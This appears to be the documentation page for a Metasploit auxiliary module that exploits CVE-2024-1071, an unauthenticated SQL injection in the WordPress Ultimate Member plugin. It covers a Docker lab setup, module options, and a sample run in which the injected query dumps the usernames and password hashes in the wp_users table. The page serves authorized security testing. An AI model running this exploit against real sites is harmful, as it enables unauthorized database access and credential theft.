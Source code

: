 ## Vulnerable Application

The vulnerability affects the **Ultimate Member** plugin for WordPress, versions
**2.1.3 to 2.8.2**, allowing **unauthenticated SQL injection** (unauth SQLi) via
the `sorting` parameter.
This plugin has over **200,000 active installations**, making this a significant security issue.

### Pre-requisites:
   - **Docker** and **Docker Compose** installed on your system.

### Setup Instructions:

1. **Download the Docker Compose file**:
   - Here is the content of the **docker-compose.yml** file to set up WordPress
   with the vulnerable Ultimate Member plugin and a MySQL database.

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

2. **Start the Docker environment**:
   - In the directory where you saved the `docker-compose.yml` file, run the following command to start the services:

```bash
docker-compose up -d
```

3. **Install Ultimate Member Plugin**:
   - Download the vulnerable version of the Ultimate Member plugin:

```bash
wget https://downloads.wordpress.org/plugin/ultimate-member.2.8.2.zip
```

   - Install the plugin in your running WordPress instance:
     - Extract the plugin files and copy them to your WordPress container:

```bash
unzip ultimate-member.2.8.2.zip
docker cp ultimate-member wordpress:/var/www/html/wp-content/plugins/
```

   - Navigate to `http://localhost:5555/wp-admin` in your browser and activate the **Ultimate Member** plugin in the WordPress admin panel.

4. **Enable Custom Account Metadata Table**:
   - Navigate to `http://localhost:5555/wp-admin/admin.php?page=um_options&tab=misc`
   and enable the **Use a custom table for account metadata** option.

## Verification Steps

1. **Set up WordPress** with the vulnerable **Ultimate Member 2.8.2** plugin.
2. **Start Metasploit** using the command `msfconsole`.
3. Use the correct module for the vulnerability:

```bash
   use auxiliary/scanner/http/wp_ultimate_member_sorting_sqli
```

4. Set the target's IP and URI:

```bash
   set RHOST <target_ip>
   set TARGETURI /
```

5. **Run the module**:

```bash
   run
```

6. **Verify the SQL Injection**:
   - After running the module, the SQL injection payload will attempt to retrieve or manipulate data from the WordPress database.

## Options

### DIR_ID_MIN and DIR_ID_MAX
These options specify the range of `directory_id` values used to bruteforce the ID
during the SQL injection attack.
By default, they are set from 1 to 100, but you can adjust this range based on your target.

### COUNT
This option specifies the number of rows to retrieve from the database during the
SQL injection attack.
For example, setting `COUNT` to 5 will retrieve 5 rows from the `wp_users` table.

## Scenarios

The following scenario demonstrates an SQL injection attack against a WordPress
installation running **Ultimate Member 2.8.2** on a Docker environment with MySQL.

### Step-by-step Scenario

```bash
msf6 auxiliary(scanner/http/wp_ultimate_member_sorting_sqli) > run http://127.0.0.1:5555

[*] Performing SQL injection for CVE-2024-1071 via the 'sorting' parameter...
[*] Getting nonce...
[+] Nonce retrieved: 1ab37a3d8f
[*] Searching for valid directory id between 1 and 100...
[+] Valid directory ID found: b9238 (tested with 1)
[*] {SQLi} Executing (select group_concat(VTKTaFWa) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) VTKTaFWa from wp_users limit 1) Dc)
[*] {SQLi} Encoded to (select group_concat(VTKTaFWa) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0xfb,0)),ifnull(user_pass,repeat(0x20,0))) as binary) VTKTaFWa from wp_users limit 1) Dc)
[*] {SQLi} Time-based injection: expecting output of length 44
[+] Dumped user data:
wp_users
========

    user_login  user_pass
    ----------  ---------
    chocapikk   $P$BPdY0XccQT2nvSXE8bjsn1CERoF7eJ.

[+] Loot saved to: /home/chocapikk/.msf4/loot/20240922050825_default_127.0.0.1_wordpress.users_421054.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
